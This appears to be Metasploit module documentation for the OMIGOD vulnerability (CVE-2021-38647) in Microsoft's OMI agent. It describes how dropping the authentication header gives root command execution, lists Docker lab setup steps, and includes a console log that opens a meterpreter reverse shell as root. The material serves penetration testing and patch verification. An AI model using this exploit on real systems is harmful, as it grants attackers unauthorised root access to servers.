 ## Vulnerable Application

By removing the authentication header, an attacker can issue an HTTP request to the OMI management endpoint that will
cause it to execute an operating system command as the root user. This vulnerability was patched in OMI version 1.6.8-1
(released September 8th 2021).

## Verification Steps

1. Start the application using the [Censys Dockerfile][1]
    1. `docker build . -t ms-omi:cve-2021-38647`
    2. `docker run --name cve-2021-38647 --rm -d -p 5985:5985 ms-omi:cve-2021-38647`
2. Start `msfconsole`
3. Do: `use exploit/linux/misc/cve_2021_38647_omigod`
4. Set the module options
5. Do: `exploit`
6. You should get a shell.

## Options

## Scenarios

### Ubuntu 20.04 x64, OMI v1.6.8, SCX v1.6.6

```
msf6 > use exploit/linux/misc/cve_2021_38647_omigod
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cve_2021_38647_omigod) > set RHOSTS 192.168.159.128
RHOSTS => 192.168.159.128
msf6 exploit(linux/misc/cve_2021_38647_omigod) > check
[+] 192.168.159.128:5985 - The target is vulnerable. Command executed as uid 0.
msf6 exploit(linux/misc/cve_2021_38647_omigod) > set TARGET Linux\ Dropper 
TARGET => Linux Dropper
msf6 exploit(linux/misc/cve_2021_38647_omigod) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/misc/cve_2021_38647_omigod) > exploit

[*] Started reverse TCP handler on 192.168.159.128:8443 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Command executed as uid 0.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3012548 bytes) to 192.168.159.128
[*] Command Stager progress - 100.00% done (823/823 bytes)
[*] Meterpreter session 1 opened (192.168.159.128:8443 -> 192.168.159.128:41066 ) at 2021-10-26 10:53:18 -0400

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 10.0.2.100
OS           : Ubuntu 20.04 (Linux 5.14.11-200.fc34.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

[1]: https://gist.github.com/dabdine/ac6aadde068cad4d58251453e688a84f
